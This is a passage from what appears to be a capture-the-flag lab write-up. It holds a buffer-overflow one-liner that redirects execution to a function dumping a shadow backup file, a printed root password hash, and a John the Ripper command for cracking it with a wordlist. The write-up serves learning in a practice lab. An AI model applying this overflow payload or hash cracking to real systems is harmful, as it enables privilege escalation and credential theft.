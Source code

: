  ```
 python -c 'print "A"\*44 + "\xcb\x84\x04\x08"' | /opt/secret/root
 ```

And with that, we successfully invoke the `shell()` function, which returns the contents of **shadow.bak**:

![screenshot22](../assets/images/the_cod_caper/screenshot22.png)

Turns out shadow.bak contains the hashed password of the **root** user! We can crack the hash using **John The Ripper**.

To do so, we first need to identify what hashing algorithm was used for the password. Also, it is important to know which part is the actual hash portion. Below is the copied over hash:

![screenshot23](../assets/images/the_cod_caper/screenshot23.png)

Note that the actual hash is in between the first two `:` symbols. Hence, in this case, the hash is

`$6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.`

Next, we use `john` as such:

```
sudo john --wordlist=/usr/share/wordlists/rockyou.txt root.hash
```

![screenshot24](../assets/images/the_cod_caper/screenshot24.png)
